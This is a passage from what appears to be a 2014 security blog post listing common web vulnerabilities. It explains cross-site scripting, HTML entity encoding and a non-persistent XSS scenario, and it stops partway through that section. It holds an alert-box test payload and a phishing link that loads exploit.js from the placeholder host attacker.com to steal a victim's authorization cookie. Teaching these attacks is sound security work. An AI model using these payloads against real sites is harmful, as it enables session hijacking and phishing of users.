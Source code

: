 Title: A List of Common Web Vulnerabilities
Date: 2014-10-31 6:30
Category: Web Security
Tags: XSS, CSRF, XSSI, Buffer_Overflow, LFI, RFI, iframe, SQLi


Although nomenclatures don't help  much when you are facing a security problem, I am keeping this list for a systematic organization. It is constantly been updated.

In addition to this list, you can check some specific web exploration older posts: [Exploiting the web in 20 lessons](http://bt3gl.github.io/exploiting-the-web-in-20-lessons-natas.html) and [D-Camp CTF 2014](http://bt3gl.github.io/exploring-d-ctf-quals-2014s-exploits.html).

# Vulnerabilities to Web Applications


## Cross-site Scripting (XSS)

XSS is caused by **insufficient input validation or output escaping**. This can allow an attacker to insert HTML markup or scripts in a vulnerable website. The injected  code will have plenty of access in this site, and in many cases, to the HTTP cookies stored by the client.


HTML has five characters that are reserved:

* **both angle brackets**,

* **single and double quotes**,

* and **ampersand**.

The ampersand should never appear in most HTML sections. Both angle brackets should not be used inside a tag, unless  properly quoted. Quote characters inside a tag can also be harmless in text.

To allow these characters to appear in problematic locations, an encoding based in an ampersand-prefixed and a semicolon-terminated scheme is used: the [Entity Encoding](http://www.w3schools.com/html/html_entities.asp).


### Non-Persistent Attack:

XSS non-persistent attacks consist on getting users to click a link with attacker's script. A typical scenario is the following:

1. The target website perform  query searches that are not sanitized. For example, the query could accept scripts on it. A simple example to check this vulnerability is by verifying whether the alert box with the message **Pwnd** is displayed:
```
http://website.org?q=<script%20type='text/javascript'>alert('Pwnd!');</script>
```

2. The attacker crafts an exploit script that gets the victim's authorization information (for example in an **Authorization Cookie**). The attacker sends a **phishing email** to the victim with a link with some script such as:

```
http://website.org?q=puppies<script%20src="http://attacker.com/exploit.js">
```
